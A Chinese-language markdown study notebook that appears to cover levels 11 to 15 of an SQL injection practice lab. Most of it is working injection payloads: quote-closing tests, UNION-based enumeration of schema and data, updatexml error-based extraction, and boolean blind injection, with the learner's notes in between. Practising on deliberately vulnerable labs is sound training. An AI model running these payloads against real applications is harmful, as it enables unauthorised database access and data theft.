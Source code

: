 和前面不同，开始进行post传参
![alt text](image.png)
# 11
- ' or 1=1 -- a
- 'or 1=1 order by 2 -- a (也可以用这个来判断字段)
![alt text](image-1.png)

- 'union select 111,222 -- a
![alt text](image-2.png)

- ' union select 111,database() -- a
![alt text](image-3.png)

- ' union select 111,table_name from information_schema.tables where table_schema='security' -- a
![alt text](image-4.png)

- ' union select 111,column_name from information_schema.columns where table_schema='security' and table_name='emails' -- a
![alt text](image-5.png)

- ' union select 111,id from emails -- a
![alt text](image-6.png)


# 12
和11一样，只是闭合问题

- ")or 1=1 -- a
![alt text](image-7.png)

......

# 13【和前面不太一样】
正常情况：
![alt text](image-9.png)
![alt text](image-8.png)


- 当我们输入1'和1时候页面没有反应,当我们输入1"的时候页面出现报错信息，就可以知道sql语句是双引号且有括号(12关)
![alt text](image-10.png)

- 1') or 1=1 #         (在'里面带上数值)
- 1') or 1=2 #

- 判断库名：')and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe
- 判断表名：')and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)-- qwe
- 判断列名：')and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)-- qwe
- 判断数据：')and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)-- qwe

# 14【开始懵逼】
这里，当我用   1") or 1=1 #  尝试是，报错，而  1') or 1=1 #  没显示这错误，说明"应该是突破点
![alt text](image-11.png)


![alt text](image-14.png)

- 1" or 1=1 #
![alt text](image-12.png)

- 1' or 1=1 #
![alt text](image-13.png)

- 【- 不知道为什么and不管用，也不知道为什么要用or找出引号再用and？？？】

- "and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- qwe(不要忘了中间还有select)
![alt text](image-15.png)


# 15【没有显错位】【这里的盲注和事前的不同，一个是and，一个是or（原因：B站15-17，7min左右）】
用一些语句查找后发现没有出现报错语句，只有是否成功，那就不能用报错注入，可以试试盲注

- 1") or 1=1 #
- 1') or 1=1 #
- 1" or 1=1 #
- 1' or 1=1 # (只有这个显示登录成功，说明可以从'突破)

- ' or (length(database())=8) -- a
- ' or (ascii(substr(database(),1,1)))=115 -- a
- ' or (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=101 -- a
- ?id=1' and (ascii (substr ((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)))=105-- qwe





























